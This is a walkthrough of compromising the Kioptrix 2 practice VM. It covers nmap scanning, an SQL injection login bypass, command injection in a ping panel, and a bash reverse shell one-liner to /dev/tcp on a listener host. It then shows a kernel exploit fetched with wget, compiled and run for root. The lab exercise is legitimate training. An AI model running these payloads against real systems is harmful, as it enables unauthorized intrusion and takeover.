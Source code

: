 # Kioptrix 2- Walkthrough

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig2.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover2.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.

Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
		* -A  DetectS OS and Services
    
    
 ```
 nmap -sS -A <ip address>
 ```
 
 ![alt text](/screens/nmap2.png)
 
 Port 631 caught my eye immediatly and CUPS 1.1 had some known vulnerabilities but noone of the exploits worked.
 Lets search further.
 
 Port 80, which is standard http port is open.
 When accessed it gives us a login panel.
 
  ![alt text](/screens/login1.png)

### SQL Injection

I tried some default credentials but they didnt work.
Lets try to bypass it with SQL Injection.

We can guess that the query looks something like

```
SELECT * FROM users WHERE username = <our input> AND password = <out input>
```	

If we pass ' or '1'='1'-- query will look now like this:

```
SELECT * FROM users WHERE username = '' or '1'='1'--  AND password = <out input>
```
	
"-- " (with space in the end) is MYSQL comment sign. Passing it in the end means that the end of the query will be commented out, so the query really looks like:

```
SELECT * FROM users WHERE username = '' or '1'='1'--
```

OR statement means that only one of the arguments needs to be True and as '1'='1' is always True - We bypassed the login form.
  
  ![alt text](/screens/login2.png)
  
After login we get redirected to a Panel which lets us Ping the machines over internet.

  ![alt text](/screens/panel.png)
  
  Lets add another command with ; (semicolon) and see if it works.
  
  ![alt text](/screens/commandinjection.png)
  
Yes! It gives us back the output from both commands so the panel is vulnerable to Command Injection.
As output shows we're logged in as apache, so now we need to use privilege escalation in order to get the root.

### Privilege Escalation

Linux command uname -a (Unix name) prints back info about the name and version of operating system running on machine.

  ![alt text](/screens/panel2.png)

  ![alt text](/screens/uname.png)
  
  So we see that the system running is **GNU/Linux version 2.6.9**
  Quick research shows that this kernel is vulerable!
	https://www.exploit-db.com/exploits/9542
	
Exploit is **local** so we need to get it into victim machine.

On our machine we need to set up a netcat listener

```
netcat -v -l -p 4444

-v (verbose)
-l (listen)
-p(port)
4444-port to listen on
```
On the victim machine we gonna inject a one line reverse shell with our IP and port that we specified in netcat listener.

```
www.google.com;bash -i >& /dev/tcp/192.168.8.104/4444 0>&1
```
Once we click submit our netcat listener should revice a connection.

  ![alt text](/screens/netcat_listener.png)
 Great, we have a reverse shell on victim machine.
 
 ## Using the exploit
 
We need to download the exploit to our machine and serve as a host to download it from victim machine.
Python's SimpleHTTPServer will do the job just fine.

Move to the directory where the exploit is and start SimpleHTTPServer with command:

```
python -m SimpleHTTPServer
```

Once started, we can access the files from the victim machine.
Lets do it using **wget** 

```
http://192.168.8.104:8000/9542.c
```

Woops! **An Error gonna come up**

  ![alt text](/screens/wgeterror.png)

Its because we dont have the required permission as the **apache** user.
But we do have an access to **/tmp/** location, lets insert it there then!

  ![alt text](/screens/wgetsuccess.png)
  
 Works perfectly!
Its a .c file so we need to compile it now using **gcc**.
Type: ```gcc 9542.c -o exploit```
And use the compiled exploit with ```./exploit```

  ![alt text](/screens/root2.png)
  
  **Root obtained!** 
